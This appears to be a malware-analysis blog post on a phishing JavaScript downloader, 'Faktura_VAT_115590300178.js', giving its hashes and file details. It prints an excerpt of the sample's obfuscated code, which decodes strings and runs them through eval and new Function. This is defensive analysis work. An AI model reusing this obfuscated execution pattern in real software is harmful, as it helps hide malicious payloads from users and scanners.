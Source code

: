 # Malware Analysis: Faktura_VAT_115590300178.js

[malware](/tags#malware ) [javascript](/tags#javascript )
[procmon](/tags#procmon ) [procdot](/tags#procdot ) [process-
hacker](/tags#process-hacker ) [logging](/tags#logging )
[powershell](/tags#powershell )  
  
Jul 7, 2018

Malware Analysis: Faktura_VAT_115590300178.js

I spent some time looking at this javascript sample from VT. Based on both the
file extension and the fact that I couldn’t get it to run in `spidermonkey` or
`internet explorer`, it seems likely that this was a `.js` file sent as a
phishing attachment that acts as a downloader to get the next stage from the
c2 server. I show how to use Process Hacker, ProcMon, ProcDot, and Windows
loggings to observer the PowerShell commands, and thus determine what the
mawlare was doing.

## File Info

Filename | Faktura_VAT_115590300178.js  
---|---  
md5 | bf9c6e9cfadd3fba87424151ef595f44  
VT Link | https://www.virustotal.com/#/file/2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5/details  
  
The file is ASCII text (as expected with a `.js` extension), and it’s 310
lines.

    
    
    $ file 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5
    2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5: ASCII text, with very long lines, with CRLF line terminators
    
    $ wc -l 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5
    310 2bcd28a0723854c7ef229084d278af6e648c06de695018c070688f262f40e0a5
    

The file is identified as malicious by a handful of AV products:
![1530913970336](https://0xdfimages.gitlab.io/img/1530913970336.png)

## Visual Analysis

The code is comprised largely of functions that are clearly designed to
obfuscate what is going on. However, there was one section in the middle that
caught my eye:

    
    
    var v1, v2, v3;
    v1 = new ActiveXObject('WScript.Shell');
    v2 = v1[ggggggggggggggggggggg_0x1ab0('0x24')]('Templates') + ggggggggggggggggggggg_0x1ab0('0x25');
    v3 = v1['CreateShortcut'](v2);
    v3['TargetPath'] = 'http://google.com';
    try {
            v3['Save'];
    } catch (_0x36ffc4) {
            kbxGyPTslAZIBCHpK = NiHpGaDqKBkoRuUjne(ISUJTkXAHzZxhYfRwd, 'SenDu');
                AGwXxrQZcLfbNdtkqv = eval(kbxGyPTslAZIBCHpK);
                    new Function(NiHpGaDqKBkoRuUjne(CZAxgPWjVfpcuRqvBUe, xsbmgAQcCireMupt))();
    }
    